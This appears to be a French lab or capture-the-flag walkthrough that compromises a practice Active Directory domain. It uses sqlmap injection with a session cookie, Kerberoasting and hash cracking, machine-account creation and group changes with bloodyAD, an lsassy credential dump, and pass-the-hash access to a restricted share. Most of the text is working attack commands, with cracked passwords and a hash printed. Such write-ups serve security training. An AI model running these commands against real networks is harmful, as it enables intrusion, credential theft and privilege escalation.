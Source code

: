 Tout d'abord pour demader le vpn 
sudo openvpn --config akil.ovpn
sudo route -n add -net 192.168.40.0/24 -interface utun3


Ensuite voici a quoi ressemble mon /etc/hosts
![Capture d’écran 2024-11-14 à 16 00 35](https://github.com/user-attachments/assets/09392315-4757-494f-98ab-cc74ef0e38c4)

À partir de là, on utilise sqlmap pour tester une injection SQL sur le site web interne. La commande suivante permet d'obtenir le schéma de la base de données :
sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --schema --batch
![Capture d’écran 2024-11-14 à 16 03 56](https://github.com/user-attachments/assets/35b4f2ff-e3df-47bf-9a11-eeb170d514d1)

Ensuite, on extrait le contenu de la table users, ce qui nous permet de récupérer le mot de passe d'Alice :
sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --dump -T users --batch
![Capture d’écran 2024-11-14 à 16 04 11](https://github.com/user-attachments/assets/69f89746-4eb2-400b-9b2c-95bbfe82187d)

Ainsi, le mot de passe d'Alice (p@ssword) est obtenu.

En poursuivant, nous réalisons un Kerberoasting pour récupérer les tickets Kerberos des comptes de service :
nxc ldap 192.168.40.127 -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --kerberoasting kerberoasting.txt
![Capture d’écran 2024-11-14 à 16 05 41](https://github.com/user-attachments/assets/18a9f071-ea3f-4912-8ce9-0898fb7fd9ff)
Le hash obtenu correspond à svc_srv. Nous allons donc essayer de cracker ce hash pour obtenir le mot de passe en clair.

Avec hashcat, on utilise le mode 13100 pour casser le hash :
hashcat -m 13100 -a 0 kerberoasting.txt passwords.txt 
![Capture d’écran 2024-11-14 à 16 06 30](https://github.com/user-attachments/assets/78dff516-e728-4e94-b740-ad684e7d4bea)

Il est également possible d’utiliser John The Ripper pour obtenir le mot de passe:
john --format=krb5tgs --wordlist=passwords.txt kerberoasting.txt
![Capture d’écran 2024-11-14 à 16 07 07](https://github.com/user-attachments/assets/5c67de6d-ce53-4c7e-8c75-ed773514a771)

Le mot de passe de svc_srv est donc trouvé : qwerty123.

Ensuite, on vérifie les permissions disponibles pour Alice sur le partage SMB :
nxc smb DC01.VULN.LAB -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --dns-server 192.168.40.127 --shares
![Capture d’écran 2024-11-14 à 16 07 49](https://github.com/user-attachments/assets/f41a0246-073b-4d76-9d7f-fdb8e5f12b27)
Bien qu'elle ait accès à certains partages, l'accès au dossier CurriculumVitae, qui nous intéresse, lui est refusé.

Pour contourner cette restriction, on utilise Alice pour créer un compte machine appelé akil :
bloodyAD -u Alice.mice -p 'p@ssword' -d vuln.lab --host vuln.lab --dc-ip 192.168.40.127 add computer akil 'Password!'
![Capture d’écran 2024-11-14 à 16 22 31](https://github.com/user-attachments/assets/0449e44f-cec3-4329-9dae-79f16989f45a)

Pour analyser et visualiser les permissions dans Active Directory, on utilise BloodHound avec Alice :
bloodhound-python -c All -u 'Alice.mice' -p 'p@ssword' -d vuln.lab -ns 192.168.40.127
curl -L https://ghst.ly/getbhce | sudo docker compose -f - up

Ensuite, on se connecte à l'interface BloodHound via "http://127.0.0.1:8080/ui/explore".
Les fichier .json générés seront mis dans l'onglet Administration de bloodHound.

Avec les privilèges de svc_srv, on ajoute le compte akil dans le groupe server_admins, ce qui lui octroie des droits administratifs sur les serveurs :
bloodyAD -u svc_srv -p 'qwerty123' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember server_admins 'akil$'
![Capture d’écran 2024-11-14 à 16 18 53](https://github.com/user-attachments/assets/130f4146-5860-4b89-9b8d-fee75317247d)

Nous vérifions ensuite qu’akil a bien les permissions nécessaires pour accéder aux informations d'un compte administrateur :
![Capture d’écran 2024-11-14 à 16 25 48](https://github.com/user-attachments/assets/ddbc54c1-8d21-472d-b924-f6a1cbb659f9)

Ensuite grace a cette commande on a pu avoir acces au mot de passe hasher de srv_neccus en utilisant lsassy:
 nxc smb SRV01.VULN.LAB -u 'akil$' -p 'Password!' -M lsassy
 ![Capture d’écran 2024-11-14 à 16 29 17](https://github.com/user-attachments/assets/387278f6-bb8d-4cc5-af39-159c391a525f)

Grâce à ce hash, on peut ajouter akil au groupe human_resources car, d’après BloodHound, svc_nessus, via le groupe administrative_groups, a la possibilité d’ajouter des membres dans human_resources :
<img width="1433" alt="Capture d’écran 2024-11-14 à 16 32 51" src="https://github.com/user-attachments/assets/5a76fe09-2541-4a3d-8312-3191dc30c77a">
bloodyAD -u svc_nessus -p ':e3cddc751fabf3eed53f904d85b1a0ba' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember "human_resources" 'akil$'
![Capture d’écran 2024-11-14 à 16 33 32](https://github.com/user-attachments/assets/f639e056-1639-497d-9524-839bd37389b3)

Finalement, on accède au partage CurriculumVitae en utilisant akil avec les droits nécessaires :
nxc smb DC01.VULN.LAB -u 'akil$' -p 'Password!' -d 'vuln.lab' --dns-server 192.168.40.127 --shares 
![Capture d’écran 2024-11-14 à 16 35 17](https://github.com/user-attachments/assets/3956ac70-d6a7-4178-8676-13dca51c6e89)
![Capture d’écran 2024-11-14 à 16 35 53](https://github.com/user-attachments/assets/ecca4a57-8a0c-43f9-beb8-e13a60674b57)


 

 









